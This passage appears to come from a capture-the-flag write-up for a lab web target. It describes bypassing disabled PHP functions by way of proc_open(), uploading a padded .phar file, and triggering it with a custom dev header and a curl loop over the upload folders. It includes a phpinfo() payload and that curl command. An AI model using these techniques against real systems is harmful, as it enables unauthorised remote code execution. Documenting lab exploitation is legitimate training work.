 ```php
  </body>
</html>
```


There was one last thing I was missing to figure out why my reverse shell was not working and that was the proc_open() functions in php.
By creating another payload and sending it to dev.siteisup.htb we are able to print all of the php info.

This link gives a simple explanation how it works.
https://www.php.net/manual/en/function.phpinfo.php

Note: Be sure to add a bunch of websites to the beginning of this payload too.

```php
<?php 
phpinfo();
```
Using that script prints alot and in the disable functions section we can see that most are blocked including fsockopen but not proc_open()

![image](https://user-images.githubusercontent.com/105310322/191994679-3a4bcb80-822b-4501-8443-718edd7e283e.png)

The link below gives the script and all you have to do is put in your reverse shell.

https://www.php.net/manual/en/function.proc-open.php



Now we can take everything that checker.php is checking for and form our payload.


1. I Added lots of websites to look at so I would have more time to navigate to the file upload since it gets deleted very quickly. 
2. Create it as a .phar file
3. Use a proc_open script with your reverse shell.
4. Make sure your burp suite is ready to go with ```Special-Dev: only4dev```
5. Alternatively you can run this Curl command from another user ```curl -H 'Special-Dev: only4dev' -s http://dev.siteisup.htb/uploads/ | grep "\[DIR\]" | cut -d "\"" -f 8 > folder-names; while read -r line; do curl -v -H 'Special-Dev: only4dev' "http://dev.siteisup.htb/uploads/${line}<PHAR-FILE-NAME>.phar"; done < folder-names``` and it should work but I have not tested.






```php
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
```